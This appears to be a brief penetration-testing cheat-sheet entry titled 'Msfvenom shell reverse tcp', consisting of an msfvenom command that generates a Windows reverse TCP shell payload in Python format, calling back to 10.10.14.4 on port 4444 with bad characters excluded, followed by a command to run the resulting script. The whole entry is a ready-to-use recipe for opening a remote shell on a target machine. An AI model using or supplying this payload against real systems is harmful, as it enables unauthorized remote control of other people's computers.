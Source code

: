 # Msfvenom shell reverse tcp

Windows Shell Reverse TCP Python

```bash
# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444
EXITFUNC=thread -b "\x00\x0d\x0a" -f python

# Run
python2 run.py
```
